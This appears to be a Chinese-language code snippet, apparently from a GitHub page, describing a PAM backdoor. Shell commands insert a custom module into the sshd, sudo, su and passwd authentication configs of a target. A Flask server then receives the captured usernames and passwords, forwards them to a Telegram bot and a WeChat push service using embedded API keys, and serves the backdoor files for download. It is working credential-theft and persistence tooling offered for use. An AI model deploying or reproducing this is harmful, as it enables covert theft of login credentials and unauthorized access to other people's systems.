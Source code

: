 ```code
auth       required     pam_unix.so
auth       required     pam_authx.so
```

```bash
sed -i "1iauth       required     pam_unix.so\nauth       required     pam_authx.so" /etc/pam.d/sshd
sed -i "1iauth       required     pam_unix.so\nauth       required     pam_authx.so" /etc/pam.d/sudo
sed -i "1iauth       required     pam_unix.so\nauth       required     pam_authx.so" /etc/pam.d/su
sed -i "1iauth       required     pam_unix.so\nauth       required     pam_authx.so" /etc/pam.d/passwd
```

下载目标编辑好的pam后门到目标计算机

### PAM后门密码推送【接收密码】

```python
# -*- coding: UTF-8 -*-
from flask import Flask
from flask import request
from flask import send_from_directory
import requests,binascii
import os

# nohup gunicorn -w 1 -b 0.0.0.0:8443 yourappname:app > /dev/null 2>&1 &

app = Flask(__name__)

@app.route("/ssh", methods=['POST'])
def ssh():
    if request.method == 'POST' and request.form.get('msg'):
        msg = request.form.to_dict().get("msg")
        msg = msg.split("::")
        print(msg[1])
        msg = "host: " + msg[2] + "\nusername: " + msg[0]  + "\npassword: " + str(bytearray.fromhex(msg[1]))
        sendMessage(msg)
        sendMessage_Wechat(msg)
        return "200"

@app.route("/download/ssh", methods=['GET'])
def downloadssh():
    directory = os.getcwd()
    return send_from_directory(directory, "install_ssh.sh", as_attachment=True)

@app.route("/download/authx", methods=['GET'])
def downloadauthx():
    directory = os.getcwd()
    return send_from_directory(directory, "pam_authx.so", as_attachment=True)
  
//转发推送到telegarm机器人
def sendMessage(msg):
    apiKey = "1690803241:AAFlb3erITT3mAQXsWJyqky5-ppT1iLR0r8"
    userId = "1081557726"
    data = {"chat_id":userId,"text":msg}
    url = "https://api.telegram.org/bot{}/sendMessage".format(apiKey)
    r = requests.post(url,json=data)
    
//转发推送到微信，使用server酱api
def sendMessage_Wechat(msg):
    SCKEY = "SCU90806Tcd03301290315424fa3c008bc5cc6735600505d0cf248"
    urlWechat = "https://sc.ftqq.com/{}.send".format(SCKEY)
    title = "有用户尝试登录"
```